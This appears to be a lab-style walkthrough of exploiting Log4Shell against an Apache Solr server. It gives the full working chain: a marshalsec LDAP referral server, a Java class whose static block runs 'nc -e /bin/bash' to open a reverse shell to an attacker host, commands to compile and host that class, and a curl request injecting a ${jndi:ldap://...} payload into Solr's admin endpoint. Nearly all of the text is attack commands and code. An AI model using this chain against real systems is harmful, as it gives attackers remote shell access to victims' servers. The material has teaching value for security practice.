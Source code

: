 ## we now start the ldap server taking note to set the variables to point to our HTTP server where the evil payload will be hosted :D
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"`
## The server should be listening like the screenshot below:
![LDAP Server Listening](LDAP-Referral-Server-Listening.jpg)

## we will create a java payload that sends a reverse shell back to our attacker machine
## code is as below:
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <ATTACKER-IP> <ATTACKER-PORT>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
## we save the file as `Exploit.java`
## **The above step is importatnt** to make sure the payload matches what we specified in the LDAP referral server:
`marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"` <-- note the `#Exploit` name

## we proceed to install java development kit
`apt install default-jdk -y`

## then move on to compile the `Exploit.java` file to get the malicious `Exploit.class` file
`javac Exploit.java -source 8 -target 8`

## we then set up our python http server to host our payload
`python3 -m http.server`

## and we invoke our curl
`curl 'http://<VICTIM-IP>:8983/solr/admin/cores?foo=$\{jndi:ldap://<ATTACKER-IP>:1389/Exploit\}'`
